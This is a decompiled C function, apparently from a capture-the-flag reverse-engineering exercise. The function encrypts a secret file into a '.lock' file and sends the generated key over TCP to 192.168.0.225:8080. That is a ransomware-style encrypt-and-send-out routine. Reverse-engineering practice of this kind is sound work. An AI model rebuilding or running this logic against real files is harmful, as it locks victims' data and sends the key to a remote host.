 ```cpp
  long local_10;

  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  unknown_text = malloc(0x11);
  FUN_00101606(0x10,unknown_text);
  secret_file = fopen("ctf4b_super_secret.txt","r");
  if (secret_file == (FILE *)0x0) {
    puts("Can\'t open file.");
    uVar2 = 1;
  }
  else {
    pcVar3 = fgets(secret_text,0x100,secret_file);
    if (pcVar3 != (char *)0x0) {
      sVar4 = strlen(secret_text);
      lock_text = malloc(sVar4 << 2);
      FUN_0010157f(unknown_text,secret_text,lock_text);
      __stream = fopen("ctf4b_super_secret.txt.lock","w");
      if (__stream == (FILE *)0x0) {
        puts("Can\'t write file.");
        uVar2 = 1;
        goto LAB_0010191f;
      }
      local_150 = 0;
      while( true ) {
        sVar4 = strlen(secret_text);
        if (local_150 == sVar4) break;
        fprintf(__stream,"\\x%02x",(ulong)*(byte *)(local_150 + (long)lock_text));
        local_150 = local_150 + 1;
      }
      fclose(__stream);
    }
    fclose(secret_file);
    __fd = socket(2,1,0);
    if (__fd < 0) {
      perror("Failed to create socket");
      uVar2 = 1;
    }
    else {
      local_128._0_2_ = 2;
      local_124 = inet_addr("192.168.0.225");
      local_128._2_2_ = htons(8080);
      iVar1 = connect(__fd,(sockaddr *)local_128,0x10);
      if (iVar1 == 0) {
        write(__fd,unknown_text,0x11);
        uVar2 = 0;
      }
      else {
        perror("Failed to connect");
        uVar2 = 1;
      }
    }
  }
LAB_0010191f:
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return uVar2;
}
```
